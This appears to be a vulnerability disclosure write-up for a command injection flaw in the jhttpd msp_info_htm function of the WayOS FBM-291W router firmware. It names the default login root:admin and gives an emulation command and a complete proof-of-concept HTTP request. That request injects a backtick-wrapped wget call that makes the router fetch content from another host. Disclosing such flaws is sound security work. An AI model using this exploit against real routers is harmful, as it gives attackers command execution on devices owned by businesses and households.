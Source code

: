 Firmware Name: FBM_291W-19.09.11V.trx 

- Model: FBM-291W 

-  Version: 19.09.11

- Test Environment: Ubuntu 18.04 

- offical website:https://www.wayos.com/

  download link:https://www.wayos.com/product/jiatingzuwang/jiayongwuxian/jiatingwifituijian/2355.html





  FBM-291W is a multi-WAN wireless gigabit behavior management router designed for coffee shops, small to medium-sized businesses, chain organizations, and home environments. It features outstanding internet behavior management functions. It has 128M memory and 16M flash memory. The router not only supports Viman's fourth-generation smart QoS, behavior management, smart WiFi, VPN connection, and security defense functions, but also supports intelligent wireless technology, dual-band 2.4GHz and 5G wireless, and wireless transmission rates up to 1200Mbps. The application of these functions will bring great convenience to managers and is an ideal choice for smart WiFi network solutions. There is a command execution vulnerability in its jhttpd's msp_info_htm function.

affect version:

![image](https://github.com/user-attachments/assets/8cbebe2c-f3e7-4296-9a3b-0bed7653b9cc)










![image](https://github.com/user-attachments/assets/b863218f-eaba-4fe6-96b7-1cc58303b218)


![image](https://github.com/user-attachments/assets/4a3498e5-6b80-4642-b7d9-3efad7ebec33)




Firmware emulation：

```
FirmAE$ sudo ./run.sh -d wayos ~/gujian/FBM_291W-19.09.11V.trx
```

exploit: 

After logging in with the default password root:admin, accessing the msp_info.htm page, and crafting carefully constructed parameters, it is possible to execute commands.

```
GET /msp_info.htm?flag=cmd&cmd=`wget%20http://192.168.0.2:8000/aaa` HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Connection: close

Cookie: userid=root; gw_userid=root,gw_passwd=94B830FE0CCD890946AE1C8318A2BE7B

Upgrade-Insecure-Requests: 1


```

![image](https://github.com/user-attachments/assets/d59ec088-a8c4-4b82-87ff-341633c8b03f)
